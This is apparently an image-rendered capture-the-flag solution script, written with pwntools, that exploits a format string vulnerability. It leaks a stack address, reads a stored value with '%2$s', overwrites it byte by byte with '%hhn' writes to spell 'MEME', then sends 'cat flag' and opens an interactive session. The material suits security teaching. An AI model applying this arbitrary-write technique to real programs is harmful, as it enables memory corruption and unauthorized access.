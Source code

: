 ```
# is what we need to overwrite
# last brute force attempt 64
p.recvuntil(b'the way at ', drop = True)
stack_ptr = p.recvuntil(b'\n', drop = True)
log.info(f"stack pointer: {stack_ptr}")
stack_ptr = int(stack_ptr, 16)
log.info(f"stack pointer: {stack_ptr}")
p.recvuntil(b'open: ', drop = True)
#padding
payload = b'A'
#Target address (where 6447 is stored)
payload += p32(stack_ptr)
# %s to access the address
payload += b'%2$s'
# Payload successfully leaks 6447, now we want to replace this
# with MEME, M = 4D, E = 45

#p.sendline(payload)
#padding
exploit = b'A'

exploit += p32(stack_ptr)     #M
exploit += p32(stack_ptr + 1) #E
exploit += p32(stack_ptr + 2) #M
exploit += p32(stack_ptr + 3) #E
#exploit += p32(stack_ptr + 4) #\n

# Write first %n (so far, 21 bytes, or use len)
curr_bytes = len(exploit)
# Fill in remaining to get 4D
write_M = ord('M') - curr_bytes
exploit += f'%{write_M}x%2$hhn'.encode()

# Reset bytes (kinda, reset last two bytes to 00)
write_E = 0x100 + ord('E') - ord('M')
exploit += f'%{write_E}x%3$hhn'.encode()

write_M = 0x100 + ord('M') - ord('E')
exploit += f'%{write_M}x%4$hhn'.encode()

write_E = 0x100 + ord('E') - ord('M')
exploit += f'%{write_E}x%5$hhn'.encode()

#write_null = 0x100 + 0x00 - ord('E')
#exploit += f'%{write_null}x%6$hhn'.encode()

p.sendline(exploit)
p.sendline("cat flag")
flag = p.recvline()
log.info(f"Flag retrieved: {flag}")
p.interactive()
```
